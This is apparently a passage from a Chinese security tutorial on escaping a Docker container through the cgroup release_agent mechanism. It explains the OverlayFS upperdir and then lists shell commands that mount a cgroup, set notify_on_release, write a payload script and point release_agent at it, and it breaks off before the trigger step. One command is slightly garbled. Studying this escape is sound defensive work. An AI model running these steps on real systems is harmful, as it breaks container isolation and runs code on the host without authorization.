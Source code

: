 ### 利用原理

要想利用 cgroup 机制进行 docker 逃逸，首先需要对 cgroup 可写，并且有可执行的 release\_agent 文件，而且 release\_agent 文件位于宿主机下，因为最后是宿主机运行 release\_agent 文件。

实际上整个 Docker 容器在运行中默认使用的存储方式为 OverlayFS 文件系统，默认使用的驱动是 overlay2。

OverlayFS 将单个 Linux 主机上的两个目录合并成一个目录。这些目录被称为层，统一过程被称为联合挂载。OverlayFS 底层目录称为 lowerdir，高层目录称为 upperdir。

`lowerdir`一般存储的是镜像相关的层，`upperdir`一般存储的是运行中的未提交容器层，它们都被挂载到了宿主机的文件系统中。

具体可参考：[https://blog.csdn.net/zhonglinzhang/article/details/80970411](https://blog.csdn.net/zhonglinzhang/article/details/80970411)

在容器内部，可以通过`/etc/mtab`文件来找到容器对应的`lowerdir`和`upperdir`

[![](assets/1706845681-b52040f58a59594cc283aa2889b8fd86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131231712-cf4fd9ce-c04b-1.png)

Exp:

1.创建目录并挂载 cgroup

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```

2.在 rdma 子系统下创建一个自定义子系统

```bash
mkdir /tmp/cgrp/x
```

3.将刚刚创建的 x 子系统中的 `notify_on_release` 文件配置为 1 用来在**全部进程都退出该 cgroup 子系统后触发内核调用 release\_agent**

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```

4.获取 upper\_dir

```bash
host_path=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`
```

5.在容器内部创建 payload

```bash
echo '#!/bin/sh' > /cmd
echo "touch /pwned" >> /cmd
chmod a+x /c m d
```

6.设置 release\_agent

```bash
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
